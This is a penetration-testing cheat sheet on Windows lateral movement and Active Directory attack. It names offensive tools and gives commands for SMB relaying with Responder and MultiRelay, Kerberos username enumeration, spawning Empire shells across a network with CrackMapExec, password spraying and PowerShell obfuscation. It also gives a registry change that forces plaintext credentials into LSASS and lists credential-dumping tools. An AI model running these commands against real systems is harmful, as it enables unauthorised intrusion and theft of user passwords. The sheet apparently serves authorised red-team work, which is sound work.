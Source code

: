 # Windows lateral movement

## PowerView (https://github.com/PowerShellEmpire/PowerTools/tree/master/PowerView)

Gain network situational awareness (part of empire), this basically wraps net\* commands.
* `situational_awareness/network/powerview/get_group_member`
* `situational_awareness/network/powerview/get_user`
* `situational_awareness/network/powerview/get_computer`
* `situational_awareness/network/powerview/find_localadmin_access` 

## Bloodhound (https://github.com/BloodHoundAD/Bloodhound)

Get neat ad relationship graph.
* Sharphound (https://github.com/BloodHoundAD/SharpHound) is an ingestor module for bloodhound written in C# which is faster.
* ACL Information via Bloodhound https://wald0.com/?p=112

## SMB-Relaying

* disable smb, http in responder.conf and set respond-to to targetted machines
* run Responder `python Responder -I ethX`
* run MultiRelay `python MultiRelay.py -t <target> -u ALL`
* responder can be used on captured windows targets via [PowerShell Responder](https://github.com/Kevin-Robertson/Inveigh/blob/master/Scripts/Inveigh.ps1)

## Empire

* inveigh_relay for SMB-Relaying
* invoke_executemsbuild to execute powershell commands via msbuild on local and remote hosts
* invoke_psremoting
* invoke_sqloscmd
* xp_cmdshell
* invoke_wmi
* jenkins_script_console
* invoke_dcom
* invoke_psexec
* invoke_smbexec
* invoke_sshcommand
* invoke_wmi_debugger (debug remote target)
* new_gpo_immediate_task

## Domain user enumeration

Get users via kerberos: 
```
nmap -p88 --script krb5-enum-users --script-args krb5-enum-users.realm="<realmname>",userdb=<localuserlist> <dc ip>
```

## Find where users can log into:

* start empire `./empire --rest --password <pass>`
* change CrackMapExec password in `/root/.cme/cme.conf`
* run cme to spawn shells `cme smb <iprange> -d <domain> -u <username> -p <password> -M empire_exec -o LISTENER=http`


## Shotgun / [Spray](https://github.com/SpiderLabs/Spray)

Sprays password against every user in a domain, for example via owa.
`./spray.sh -owa <ip> <userlist> <passlist> <attemptsperperiod> <lockoutperiod> <domain>`

## Execute powershell through .net with [NoPowerShell](https://github.com/trustedsec/nps_payload)

## Obfuscate Powershell

* hideMyPS (https://github.com/cheetz/hidemyps)

## [Windows-Exploit-Suggester](https://github.com/GDSSecurity/Windows-Exploit-Suggester.git)

* `systeminfo` -> `./python ./windows-exploit-suggester.py -i ./windows.txt -d name.xls`


## Activate LSASS Password storage on windows 10

`reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f` 
(this will require user to login again)

## Extract credentials
[Mimikittenz](https://github.com/putterpanda/mimikittenz.git)
Uses ReadProcessMemory() in order to extract plaintext passwords from target processes such as browsers. (Office365, Outlook, Jira, Github, Bugzilla, Zendisk, Cpanel, Dropbox, Twitter, Facebook, ...)

[LaZagne](https://github.com/AlessandroZ/LaZagne)
Similar to mimikittenz but gets passwords from filesystem instead of ram.

[SessionGopher](https://github.com/fireeye/SessionGopher)
PowerShell-Script that grabs hostnames and saved passwords

From Windows Credential Store:
* Gathering Web Credentials (https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
* Gathering Windows Credentials (https://github.com/peewpw/Invoke-WCMDump/blob/master/Invoke-WCMDump.ps1)


tags: empire relaying bloodhound powerview